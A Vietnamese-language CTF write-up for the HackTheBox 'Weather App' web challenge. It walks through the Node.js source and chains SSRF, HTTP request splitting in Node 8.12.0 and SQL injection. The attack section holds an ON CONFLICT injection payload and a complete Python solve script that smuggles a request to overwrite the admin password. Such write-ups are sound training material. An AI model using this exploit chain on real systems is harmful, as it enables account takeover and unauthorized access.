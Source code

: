 # Weather App --- Hackthebox(CVE 2018-12116 SSRF via request splitting)

Challenge category: Web
Level: Easy

# CHALLENGE DESCRIPTION
A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I’m hallucinating with the memories of my past life, it’s a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I’ve been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that’s operating this website and set me free!

# OVERVIEW 
Bắt đầu challenge cho ta trang web như sau với chức năng dự báo thời tiết ở khu vực của bạn.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/d915872a-7c20-4131-8f6f-75216556fe88)

Mình đi đến file của challenge. Bắt đầu với file `package.json`

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/8a24c775-871c-42eb-b35a-7b8aa21024c3)

Từ đây ta biết được rằng challenge được xây dựng bởi  `nodejs version 8.12.0` và ở dependencies là `sqlite-async` nghĩa là app sử dụng sqlite database để lưu trữ data.

Sau đó thì mình có research về [Nodejs-2018-vulnerabilities]([https://nodejs.org/en/download/releases](https://cyber.vumetric.com/vulns/nodejs/node-js/8-12-0/))

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/9157189b-62e2-40be-bd9d-c74dfe8cee77)

Tiếp theo, mình tiếp tục research tiếp về request splitting vuln để note lại idea giải challenge(https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/).

Có thể note lại idea từ bài viết kia là **bởi vì "phiên bản Node.js 8 hoặc thấp hơn không chuẩn hóa các ký tự Unicode có dấu".Nên ta có thể sử dụng cách splitting request.**

## Analyzing code

```Node.js
router.get('/register', (req, res) => {
	return res.sendFile(path.resolve('views/register.html'));
});

router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});

router.get('/login', (req, res) => {
	return res.sendFile(path.resolve('views/login.html'));
});

router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});

router.post('/api/weather', (req, res) => {
	let { endpoint, city, country } = req.body;

	if (endpoint && city && country) {
		return WeatherHelper.getWeather(res, endpoint, city, country);
	}

	return res.send(response('Missing parameters'));
});
```
Chúng ta có 3 endpoints: `/register`, `/login` và `/api/weather`

Bắt đầu từ phần chính của file `index.js` qua code review, ở trong routes có trang `/register` và `/login` chấp nhận phương thức POST.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/97b570b6-9af7-4a4f-98ed-acf9a39d2576)

Ở đây chúng ta có thể đăng kí user mới bằng cách request http phương thức POST nếu request đó từ ip local 127.0.0.1 nếu không phải thì sẽ bị fail. 

Thì theo idea được ghi ở overview thì ta cần tạo SSRF. Chúng ta có API, và cái API đó nhận những request từ client để lấy thông tin thời tiết từ tham số (`endpoint`, `country` và `city`) mà được cung cấp.

Và ta có thể chèn endpoint để tạo payload để request POST lên `/register` endpoint sao cho cái request đó xuất hiện lên từ chính nó.

Vậy ta có thêm idea **Tham số endpoint trong /api/weather chứa dữ liệu tải lên có lỗ hổng. Dữ liệu tải lên lỗ hổng này được tạo bởi request POST đến /register và khai thác lỗ hổng SQL trong endpoint API /register.**

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/e03564b4-23ac-4f0f-8c02-b96f9bb6a202)

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/30b5e036-4e20-44be-b077-d7920376f81b)

Tiếp theo trong route `/login` , nếu ta login đúng với admin username và password ta sẽ lấy được flag.

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/c85f2ec6-31c9-4b95-abfb-0247d2f87330)

Mình chuyển sang file `database.js`, function `isAdmin()` kiểm tra xem nều username là admin hay không

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/5e72081f-b91b-48f2-aaaa-3d2331e85e90)

Tiếp theo là function  `migrate`, tạo username là admin với random password cùng lúc với thời gian app chạy

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/85fa12ff-dc34-42cb-8404-37f3d8f885c8)

 ## Conclusion vuln found

 1. Ở request POST http đến `/register`. không có filter cho `username` và `passowrd ` do đó ta có thế áp dụng SQLi.

 2. Trong request POST HTTP tới `/api/weather` là từ máy chủ ứng dụng và không có filter cho các tham số `endpoint, city và country` do đó dễ bị tấn công Server-Side Request Forgery (SSRF).

 3. Web đang chạy trên phiên bản Node.js 8.12.0, có lỗ hổng về HTTP Request Smuggling.
 
 ## Attacking

 Bây giờ mình chạy local bằng cách host weather app sử dụng dockerfile

 ![image](https://github.com/Llam-a/HackTheBox/assets/115911041/45b082a7-7287-4012-9305-e149ce83fe14)

 Đầu tiên là dựa vào SSRF vuln, ta gửi request đến `/register` từ đến máy chủ chính nó

 Bởi vì request được cố định tới http.get ở trong `insideWeather()`-file `helpermethod`. Vậy ta có thề dùng `HTTP request splitting vulnerablity` để đưa request http POST tới `/register` trong tham số `endpoint` của request `/api/weather`.

 Do admin đã đăng kí vào thời gian app khởi động, để overwrite user với password mới ta dùng SQLi querry với tham số `password` của request POST tới `/register`.

Bắt đầu với câu truy vấn để bypass

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/af5ec5ff-8b18-433f-99ec-88418782064c)

Sử dụng keyword `ON CONFLICT` 

`INSERT INTO users (username, password) VALUES ('admin', '1') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')`

Password và username sẽ trở thành:

```
username = "admin" 
password = "1') ON CONFLICT(username) DO UPDATE SET password = 'admin';-- "
```

Tiếp đến là sử dụng splitting unicode  

```
   "\u0120"; space
   "\u010D"; \r
   "\u010A"; \n
   "%27"; singleInvertedConverted
   "%22"; double inverted comma
```

Và ta có solve.py

```python
import requests

username = 'admin' 
password = "111') ON CONFLICT (username) DO UPDATE SET password='123';--"  #SQL injection

username = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
#print(contentLength)

# \u0120=space char, \u010D=\r and \u010A=\n
endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A"  +  "Host:" + "\u0120"\
    + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\
    "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\
    + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \
    "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \
    "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\
    + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"
r=requests.post('http://localhost/api/weather', json={'endpoint': endpoint, 'city': 'Ho Chi Minh City', 'country': 'VN'},  headers={'Connection':'close'})
print(r.text)
```

Mình thử chạy trên local trước, và lụm key thôi

![image](https://github.com/Llam-a/HackTheBox/assets/115911041/bcdae809-32b0-4fb1-8298-a2d2282b4119)









 










